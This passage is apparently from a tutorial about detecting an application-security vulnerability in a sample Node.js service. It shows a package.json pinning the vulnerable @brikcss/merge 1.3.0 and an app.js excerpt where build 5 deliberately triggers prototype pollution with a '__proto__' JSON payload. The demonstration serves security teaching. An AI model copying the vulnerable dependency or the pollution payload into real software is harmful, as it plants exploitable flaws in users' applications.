 Specifically to our app and the vulnerability, two files are important:

- **package.json**:

  In the package.json file, the dependencies of our application are defined. The `@brikcss/merge` dependency with the known vulnerability is always there.

	```json
	{
		"name": "SimpleNodeJsService",
		"version": "0.0.1",
		"private": true,
		"dependencies": {
			"semver": "4.3.0",
			"@brikcss/merge": "1.3.0"
		},
		"scripts": {
			"start": "node app.js"
		}
	}
	```
- **app.js**: (dedacted to only show the important part)
	
	```js
	...
	switch(buildNumber) {
		case 2:
			//failInvokeRequestPercentage = 50;
			minSleep = 600;
			break;
		case 4: 
			minSleep = minSleep * 2;
			if(inProduction) {
				failInvokeRequestPercentage = 20;
			}
			break;
		case 5:
			// introduce HIGH appsec vulnerability
			var merge = require("@brikcss/merge")
			var obj = {}
			var malicious_payload = '{"__proto__":{"polluted":"Yes! Its Polluted"}}';
			console.log("Before: " + {}.polluted);
			merge({}, JSON.parse(malicious_payload));
			console.log("After : " + {}.polluted);
			break;
		default:
			// everything normal here
			failInvokeRequestPercentage = 0;		
			break;
	}
	...
	```
